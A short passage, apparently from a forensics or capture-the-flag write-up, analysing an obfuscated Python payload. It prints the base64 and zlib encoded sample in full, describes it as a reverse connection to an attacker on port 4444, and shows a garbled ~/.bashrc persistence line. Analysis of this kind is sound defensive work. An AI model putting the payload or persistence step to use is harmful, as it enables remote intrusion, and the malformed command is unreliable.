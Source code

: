 ![b91157a06f331811d2d33286f37cc643.png](../../../_resources/b91157a06f331811d2d33286f37cc643.png)
Look like it was a python script for something

```
import base64
import zlib

# Encoded and compressed payload
encoded_compressed_payload = 'eJw9UN9LwzAQfl7+irCHNcEsrqMbOmxBxAcRGTjfRKRNT1uaJiWXaqfo325Dh/dwx3f33Xc/6razzlO0qgEvvnRdiCJH2CYCveuVF75uQVgkxKLEI3po2RxUZanCpa5NP9DFgmYZ/T2XY2Pl1JyTN+voQGtDXW7egcUrviMz746jn2E6zZJTYGtxwof9zf3r4enx9vqBB55U1hhQnrEovlzLeHshY7mJRDIaD4zCQd6QGQwKOh+kw6oSNUDHNpzodLpA9qbLVcOi7C4SKB2oDzYKPK9eSJmesObks6o1UA2GlfxKj3Ll2X91OaU5gQEUC0+SJSjbdg4Q2fQvWWyTkCwhMMV3hNEOfzj5Axx7baM='

# Decode from base64
decoded_data = base64.b64decode(encoded_compressed_payload)

# Decompress using zlib
decompressed_data = zlib.decompress(decoded_data)

# Print the decompressed data
print(decompressed_data.decode('utf-8'))
```

I asked ChatGPT to write a script to decode it without directly executed base64 payload

![bc20d76e7528d13315f7f4e455f3fce5.png](../../../_resources/bc20d76e7528d13315f7f4e455f3fce5.png)
Then we will have this decoded python script that will create a connection to the attacker IP address on port 4444 for persistence

```
echo cs-linux && >> ~/.bashrc
```
